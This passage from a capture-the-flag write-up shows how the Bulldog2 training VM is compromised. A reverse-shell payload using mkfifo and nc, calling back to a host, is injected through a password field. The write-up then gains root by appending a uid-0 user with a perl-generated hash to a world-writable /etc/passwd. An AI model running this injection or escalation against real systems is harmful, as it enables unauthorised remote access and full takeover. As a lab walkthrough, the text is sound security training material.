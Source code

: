 ```txt
Username: ninja
Password: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.13 1234 >/tmp/f)
```
We are inside, now privilege escalation, we can close `burp-suite` and change the shell to `/bin/bash`:

     $ python -c 'import pty; pty.spawn("/bin/sh")'
     $ echo "$(uname -a)"

```txt
Linux bulldog2 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Next, i've try to search an exploit on this kernel via `linux_exploit_suggester.pl` and `searchsploit` without success.

# Escalation by /etc/passwd

To list all files world writible by all user and owned by root, enter:

    $ find / -type f -user root -perm -o=rw 2>/dev/null | grep -v /proc | grep -v /sys

We exclude `/proc` and `/sys`, finaly, the command `find` found only 1 file:.

```txt
/etc/passwd
```
Yeah, we can write into the file `/etc/passwd`, usualy, password are store under `/etc/shadow` but we can write them in `/etc/passwd`, it just not secure.

After googling a bit, i found this [post](http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/), i'll use the perl method:

    $ perl -le 'print crypt("pass123", "abc")'
    abBxjdJQWn8xw
    $ echo 'captain:abBxjdJQWn8xw:0:0:/root/root/:/bin/bash' >> /etc/passwd
    # su captain
    Password: pass123
    # cd /root
    # cat flag.txt

```txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

I'm already working on another more challenging VM. Follow me for updates.
```


